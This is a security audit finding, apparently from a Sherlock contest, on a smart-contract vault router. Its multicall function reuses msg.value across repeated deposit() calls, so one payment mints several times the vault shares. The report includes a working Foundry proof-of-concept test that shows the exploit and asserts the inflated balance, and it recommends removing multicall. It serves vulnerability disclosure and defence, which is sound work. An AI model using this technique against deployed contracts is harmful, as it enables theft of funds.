 Jumpy Chili Copperhead

high

# LMPVaultRouterBase.multicall() can be abused to call deposit() multiple times to steal ETH funds from the LMPVaultRouterBase contract.
## Summary
LMPVaultRouterBase.multicall() can be used to call deposit() to steal ETH funds from the LMPVaultRouterBase contract. The main reason is that multicall() can be used to delegatecall deposit() multiple times, and the same msg.value will be used to perform the deposit(). Reusing msg.value in each call leads to stealing of the funds.

## Vulnerability Detail
First, we have reported the problem of double payment and the issue of not comparing msg.value to ``amount`` in another finding report. This finding is independent, meaning that even those issues are addressed, the issued reported here will still occur. 

Second, the issue we reported here  is regarding the use of multicall to delegatecall deposit() multiple times. The multicall allows one to delegatecall multiple functions in one transaction to save gas, but it is dangerous to use multicall in composition with a payable function such as deposit():

[https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/utils/Multicall.sol#L12-L33](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/utils/Multicall.sol#L12-L33)


In the following, we  assume that the code of   LMPVaultRouterBase.deposit() has already been fixed to address the two issues (double payment and comparison between msg.value and ``amount``) described above as follows:

```javascript
   function deposit(
        ILMPVault vault,
        address to,
        uint256 amount,
        uint256 minSharesOut
    ) public payable virtual override returns (uint256 sharesOut) {
        // handle possible eth
        _processEthIn(vault);

        if(msg.value > 0 && msg.value != amount) revert("msg.value and amount do not match");

        IERC20 vaultAsset = IERC20(vault.asset());
        if(msg.value == 0) pullToken(vaultAsset, amount, address(this));

        return _deposit(vault, to, amount, minSharesOut);
    }
```

The problem is that multicall can be used to delegatecall deposit() multiple times, and the same msg.value is reused to perform each call of the deposit function. For example, in the following, user1 only sends 1e18 eth via multicall to the LMPVaultRouterBase contract, but since deposit() is called three times, three deposit operations will be performed using the same msg.value, leading to the user to receive 3e18 eth vault tokens instead of 1e18 vault tokens.

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity =0.8.17;

import "forge-std/Test.sol";
import { TestERC20 } from "test/mocks/TestERC20.sol";
import { SystemRegistry } from "src/SystemRegistry.sol";
import { LMPVaultRegistry } from "src/vault/LMPVaultRegistry.sol";
import { LMPVaultFactory } from "src/vault/LMPVaultFactory.sol";
import { AccessController } from "src/security/AccessController.sol";
import { SystemSecurity } from "src/security/SystemSecurity.sol";
import "src/staking/GPToke.sol";
import { LMPVault } from "src/vault/LMPVault.sol";
import { Roles } from "src/libs/Roles.sol";
import { Clones } from "openzeppelin-contracts/proxy/Clones.sol";

import { IWETH9 } from "src/interfaces/utils/IWETH9.sol";
import "src/tokens/WETH9.sol";
import "src/vault/LMPVaultRouterBase.sol";

import "openzeppelin-contracts/token/ERC20/utils/SafeERC20.sol";
import "test/utils/Addresses.sol";


contract myLMPVaultRouterBase is LMPVaultRouterBase{
    constructor(address _weth9)LMPVaultRouterBase(_weth9)
    {

    }
} 

contract MyTest is Test {
    using Clones for address;

    SystemRegistry private _systemRegistry;
    AccessController private _accessController;
    LMPVaultRegistry private _lmpVaultRegistry;
    LMPVaultFactory private _lmpVaultFactory;
    SystemSecurity private _systemSecurity;
    address _template;

    TestERC20 _toke;
    TestERC20 _asset;
    IWETH9 weth9;
    myLMPVaultRouterBase lmp;
    LMPVault _vault;
    
    GPToke gpt;

    address user1 = address(111);
    address user2 = address(222);



    function setUp() public virtual {
         weth9 = IWETH9(address(new WETH9()));

        vm.label(address(this), "testContract");

        _toke = new TestERC20("test", "test");
        vm.label(address(_toke), "toke");

        _systemRegistry = new SystemRegistry(address(_toke), address(weth9));
        _systemRegistry.addRewardToken(address(_toke));

        _accessController = new AccessController(address(_systemRegistry));
        _systemRegistry.setAccessController(address(_accessController));

        _lmpVaultRegistry = new LMPVaultRegistry(_systemRegistry);
        _systemRegistry.setLMPVaultRegistry(address(_lmpVaultRegistry));

        _systemSecurity = new SystemSecurity(_systemRegistry);
        _systemRegistry.setSystemSecurity(address(_systemSecurity));

        // Setup the LMP Vault

        _asset = new TestERC20("asset", "asset");
        _systemRegistry.addRewardToken(address(_asset));
        vm.label(address(_asset), "asset");

       
       
        _template = address(new LMPVault(_systemRegistry, address(weth9)));

        _lmpVaultFactory = new LMPVaultFactory(_systemRegistry, _template, 800, 100);    
        _accessController.grantRole(Roles.REGISTRY_UPDATER, address(_lmpVaultFactory));         


        lmp = new myLMPVaultRouterBase(address(weth9));
        _vault = LMPVault(address(_template).cloneDeterministic(keccak256("salt")));
        _vault.initialize(10000000e18, 1000000e18, "x", "y", "");

         
        gpt = new GPToke(_systemRegistry, block.timestamp, 1 days);
        _toke.mint(user1, 100e6 * 1e18);
       // uint256 mainnetFor = vm.createFork(vm.envString("ETH_RPC_URL"));
       //  vm.selectFork(mainnetFork);

       weth9.deposit{value: 1000e18}();
       (bool success, ) = address(lmp).call{value: 3e18}("");
       (success, ) = user1.call{value: 1e18}("");
    }




    function testMe() public{
         console2.log("lmp balance of eth: %d", address(lmp).balance);   
        
        /*
         vm.prank(user1);
         lmp.deposit{value: 1e18}(ILMPVault(_vault), user1, 1e18, 1e18);

         console2.log("user1's balance of vault tokens: %d", _vault.balanceOf(user1));
         */

        
         ILMPVault v = ILMPVault(_vault);
         uint256 amount = 1e18;
         uint256 minOut = 1e18;
         bytes memory cdata = abi.encodeWithSelector(LMPVaultRouterBase.deposit.selector, v, user1, amount, minOut);
     
        bytes[] memory data = new bytes[](3);
        data[0] = cdata;
        data[1] = cdata;
        data[2] = cdata; 

        console2.log("user1's balance of eth: %d", user1.balance);
        vm.prank(user1);
        lmp.multicall{value: 1e18}(data);      // send 1000 wei
        
        assertEq(_vault.balanceOf(user1), 3e18);
        console2.log("user1's balance of vault tokens: %d", _vault.balanceOf(user1));

    }
}
```


## Impact
Multcall can be used by a user to call deposit() mutlple times, and by reusing msg.value, a malicious user can steal eth from the LMPVaultRouterBase contract. 

## Code Snippet

## Tool used
VSCode

Manual Review

## Recommendation
multicall should not be supported by LMPVaultRouterBase since some functions are payable. 